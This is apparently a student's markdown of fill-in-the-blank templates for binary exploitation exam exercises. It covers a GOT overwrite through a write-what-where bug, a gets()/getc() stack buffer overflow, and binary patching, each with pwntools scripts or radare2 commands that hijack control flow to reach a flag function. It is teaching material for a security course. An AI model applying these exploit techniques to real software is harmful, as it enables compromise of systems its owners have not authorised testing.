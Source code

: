 # Templates of solutions of exam exercises

## Write-where-what (GOT exploit)

### Write up
If we execute the program, we discover that the binary provides a simple write-what-where (basically it writes wherever we say so, something we put as input) so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.

A good candidate for the overwrite would be (as usual) the "exit()" function, which absolute address can be found in the terminal using "objdump --dynamic-reloc ./____ and it's: ___________.

We can use radare2, and in particular the command afl to check if there is a function we would like to call to get the flag (which most likely it's never called), in this case it is: ______________. We can in this way also retrieve its address which is ___________-

We can then use pwntools to send these inputs (see script.py).

We simply execute the python script to retrieve the flag which is: ___________________________

### Python script
This could be the script.py mentioned before:
```python
from pwn import *

p = process("./______")

exit_addr = (str(int(0x_______))).encode("ascii")         # ascii-encoded address of the exit() function
useful_function_addr = (str(int(0x_______))).encode("ascii")       # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```
or equivalently, if we want to retrieve all the addresses directly from python:
```python
from pwn import *

context.binary = "./______"
e: ELF = context.binary
p = process()

exit_addr = str(e.got["exit"]).encode("ascii")       # ascii-encoded address of the exit() function
useful_function_addr = str(e.functions["____________"].address).encode("ascii")    # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```


## Buffer overflow (getc/s functions exploit)
### Write-up
We use ida to inspect the binary. We immediately notice that in the function ______________  for handling the user input the "gets()" _______or "getc()"_______  function is used (which we know it doesn't check the input length). 
Moreover, also the content of the buffer isn't checked against anything so we can just fill it with 'A's. In particular, since the target buffer is _________ bytes long, we will have a padding of at least _____ bytes long. (___________watch rdi in cyclic pattern_____________)

Basically, we have a buffer overflow vulnerability, so after overflowing the buffer with the padding we just need to overwrite some stack variables with the correct values. 
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables positiion in the stack).
Using Ida we can see there are a series of test/jump instructions in the binary so we can just try to change the variables according to the strings the stack variables are compared to.
In particular, these strings are in order = _______, __________ etc....

We can send our input using pwntools (see script.py). 

We execute the python file and retrieve the flag which is: ______________________

### Python script
```python
from pwn import *

p = process("./_________")

padding = b'A' * _______  
p.sendline(padding + b'________' + b'_________' etc)

print(p.recvall())

```


## Patching 
### Write up

### Patching procedure
Firstly, copy the executable with: cp ./_________  ___________patched.
Then open the ___________patched with Ida.

> ***PLEASE NOTE:*** Remember %rdi, %rsi, %rdx, %rcx, %r8, and %r9 to store function parameters and %rax to store the return address. Base pointer (%ebp, %rbp) to store the current stack address.
Also, remember that the destination is always before the source in the 2-operator instructions.

If not explicitely written in the text of the exercise, if there is a print_flag function we can overwrite the exit instruction with 
a simple jmp print_flag_address using radare 2, by:
```python
r2 -w ./name_prog     # open the file in write mode
afl     # to retrieve the address of the function print_flag
s 0x___       # to move to the addr of the exit function 
wa jmp 0x___      # to patch the binary
```
Inside the print_flag there might be some controls done using test/jump instruction, we can simply use ida to patch this instruction and reverse the jumps.




